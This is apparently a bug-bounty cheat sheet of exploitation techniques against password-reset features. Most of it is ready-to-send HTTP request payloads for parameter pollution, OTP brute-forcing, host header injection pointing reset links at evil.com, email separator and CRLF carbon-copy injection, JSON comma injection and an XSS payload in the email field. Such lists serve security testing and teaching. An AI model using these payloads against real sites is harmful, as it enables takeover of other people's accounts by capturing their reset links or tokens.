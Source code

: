 ## Forgot Password Functionality

## Introduction
Some common bugs in the forgot password / reset password functionality

## How to exploit
1. Parameter pollution
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com
```
to
```
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...

email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com,hacker@mail.com
```
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%20hacker@mail.com
```
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com|hacker@mail.com
```
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim
```

6. No TLD in value of the parameter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail
```

7. Using carbon copy
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. If there is JSON data in body requests, add comma
```
POST /newaccount HTTP/1.1
Host: target.com
...

{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user

10. Try Cross-Site Scripting (XSS) in the form

Sometimes the email is reflected in the forgot password page, try to use XSS payload
```
"<svg/onload=alert(1)>"@gmail.com
```
## References
* [anugrahsr](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
* [Frooti](https://twitter.com/HackerGautam/status/1502264873287569414)
